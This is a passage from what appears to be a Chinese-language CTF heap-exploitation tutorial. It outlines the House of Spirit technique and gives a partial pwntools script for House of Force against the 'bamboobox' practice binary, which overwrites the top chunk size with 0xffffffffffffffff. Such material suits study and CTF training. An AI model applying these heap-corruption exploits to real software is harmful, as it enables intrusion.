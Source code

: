 

#### fake chunk

# Using malloc maleficarum

### The House of Spirit

覆盖不到ret,可以盖到栈上free的指针位置

![image-20230608162704523](../img/PWN从入门到出入平安（三）——heap.assets/image-20230608162704523.png)

overflow后rop

### The House of Force

```python
#!/usr/bin/env python2
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug')
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(pt, cmd)
	pause()

host = ""
port = 0
pt = process("./bamboobox")
#pt = remote(host, port)

pt.sendlineafter(":","2")
pt.sendlineafter(":","32")
pt.sendlineafter(":","aaaa")

pt.sendlineafter(":","3")
pt.sendlineafter(":","0")
pt.sendlineafter(":","80")
pt.sendlineafter(":",b"\x00"*0x28+p64(0xffffffffffffffff))

```